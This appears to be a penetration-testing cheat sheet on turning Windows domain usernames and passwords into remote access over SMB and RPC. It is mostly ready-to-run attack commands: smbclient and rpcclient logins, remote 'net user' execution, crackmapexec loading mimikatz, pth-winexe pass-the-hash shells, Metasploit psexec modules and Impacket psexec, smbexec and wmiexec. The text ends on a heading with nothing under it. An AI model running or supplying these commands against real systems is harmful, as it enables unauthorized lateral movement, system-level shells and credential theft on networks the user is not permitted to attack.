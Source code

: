 ## The SMB command line can be accessed using credentials.

```bash
smbclient //10.10.x.x/SharedFolder -U Domain\\Username Password -p TargetPort
smbclient \\\\10.10.x.x\\SharedFolder -W WORKGROUP -U Username Password -p TargetPort
```

## Access to the MS-RPC command line can be achieved using credentials.

```bash
rpcclient 10.10.x.x -U Domain\\Username
```

## Command can be run by using username and password information (in systems where local administrator authority can be obtained).

```bash
#Nmap Scripts: 
smb-psexec.nse –script-args=smbuser=Username.list,smbpass=Password.list

smbmap –host-file /FullPath/TargetIP.list -d Domain -u Username -p Password -x “net user”
winexe -U Domain\\Username%Password //10.10.x.x “net user”
crackmapexec 10.10.x.x -u Username -p Password -M mimikatz -o COMMAND=privilege::debug
```

## Access to the Windows command line (Meterpreter, CMD, Powershell, …) can be achieved by using the username and password information (in systems where local administrator authority can be obtained).

```bash
winexe -U Domain\\Username%Password //10.10.x.x “cmd.exe” –system
pth-winexe -U Domain/Username%Password //10.10.x.x cmd.exe –system

#Metasploit Framework
exploit/windows/smb/psexec
exploit/windows/smb/psexec_psh
exploit/windows/smb/smb_delivery

#Impackets
python psexec.py Domain/Username:Password@10.10.x.x
python smbexec.py Domain/Username:Password@10.10.x.x
python wmiexec.py Domain/Username:Password@10.10.x.x

#Windows Sysinternals: 
psexec.exe \\10.10.x.x -u Domain\Username -p Password cmd.exe /accepteula
```

## Access to the Windows command line (Meterpreter, CMD, Powershell, …) can be achieved by using the username and password summary information (in systems where local administrator authority can be obtained).
